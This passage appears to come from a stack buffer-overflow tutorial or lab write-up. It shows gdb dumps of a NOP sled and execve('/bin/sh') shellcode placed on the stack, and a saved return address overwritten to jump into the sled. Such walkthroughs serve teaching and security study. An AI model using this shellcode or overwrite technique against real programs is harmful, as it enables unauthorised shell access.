 we have our shellcode in the buffer:

```
(gdb) x/40wx $esp
0xffffd4e0:	0xffffd504	0x00000014	0xf7fcfac0	0xf7fdc714
0xffffd4f0:	0x00000098	0xffffffff	0xffffd7c8	0xffffd768
0xffffd500:	0x00000000	0x90909090	0x90909090	0x90909090
0xffffd510:	0x90909090	0x50c03190	0x732f2f68	0x622f6868
0xffffd520:	0xe3896e69	0xe1895350	0x80cd0bb0	0x00000000
0xffffd530:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd540:	0x00000000	0x00000000	0x00000000	0x00000000
```

and $eip erased with an address in the NOP suite of instructions (0xffffd50c):

```
(gdb) x/20wx $ebp
0xffffd6c8:	0x00000000	0xffffd50c	0x00000001	0xffffd764
0xffffd6d8:	0xffffd76c	0xf7fd3000	0x00000000	0xffffd71c
0xffffd6e8:	0xffffd76c	0x00000000	0x080482b8	0xf7fceff4
```